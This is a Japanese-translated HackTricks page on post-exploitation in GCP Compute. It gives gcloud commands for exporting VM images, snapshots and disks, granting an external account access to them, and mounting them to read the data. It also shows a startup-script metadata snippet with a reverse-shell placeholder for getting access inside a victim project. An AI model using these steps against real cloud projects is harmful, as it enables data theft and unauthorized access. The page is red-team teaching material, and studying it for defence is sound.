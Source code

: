 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

ComputeとVPC（ネットワーキング）に関する詳細情報は、以下を確認してください：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

これにより、攻撃者は**既存のイメージに含まれるデータにアクセスする**ことができたり、**実行中のVMの新しいイメージを作成し、そのデータにアクセスする**ことができるようになります。実行中のVMにアクセスすることなく。

VMイメージをバケットにエクスポートし、その後ダウンロードしてローカルにマウントすることが可能です。 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

このアクションを実行するには、攻撃者はストレージバケットに対する権限が必要であり、確実に**cloudbuildに対する権限**が必要です。これは、エクスポートを実行するように求められる**サービス**です。\
さらに、これが機能するためには、codebuild SAとcompute SAが特権的な権限を持っている必要があります。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` は以下の権限が必要です：

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

そして、SA `<project-id>-compute@developer.gserviceaccount.com` は以下の権限が必要です：

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### スナップショットとディスクをローカルにエクスポートおよび検査する

スナップショットとディスクを直接エクスポートすることはできませんが、**スナップショットをディスクに変換し、ディスクをイメージに変換する**ことは可能であり、**前のセクション**に従って、そのイメージをエクスポートしてローカルで検査することができます。

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### VMを作成してイメージを検査する

攻撃者が**イメージを作成した**場所から**イメージに保存されたデータ**や**実行中のVM**にアクセスすることを目的として、外部アカウントにイメージへのアクセスを付与することが可能です:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
そして、それから新しいVMを作成します：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
もし外部アカウントに画像へのアクセスを与えられなかった場合、被害者のプロジェクトでその画像を使用してVMを起動し、**メタデータにリバースシェルを実行させる**ことで、パラメータを追加して画像にアクセスすることができます:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### スナップショット/ディスクをVMにアタッチして検査する

**ディスクまたはスナップショットに保存されたデータにアクセスすることを目的として、スナップショットをディスクに変換し、ディスクをイメージに変換し、前の手順に従うことができます。**

または、**外部アカウントにディスクへのアクセスを付与する**ことができます（出発点がスナップショットの場合は、スナップショットへのアクセスを付与するか、そこからディスクを作成します）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**インスタンスにディスクをアタッチ**する:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
ディスクをVM内にマウントする：

1.  **VMにSSH接続する**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **ディスクを特定する**：VM内に入ったら、ディスクデバイスをリストして新しいディスクを特定します。通常、`/dev/sdb`、`/dev/sdc`などとして見つけることができます。
3. **ディスクをフォーマットしてマウントする**（新しいまたは生のディスクの場合）：
*   マウントポイントを作成する：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   ディスクをマウントする：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

もし**スナップショットやディスクに外部プロジェクトへのアクセスを与えることができない場合**、**スナップショット/ディスクと同じプロジェクト内のインスタンスでこれらの操作を実行する必要があるかもしれません**。

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
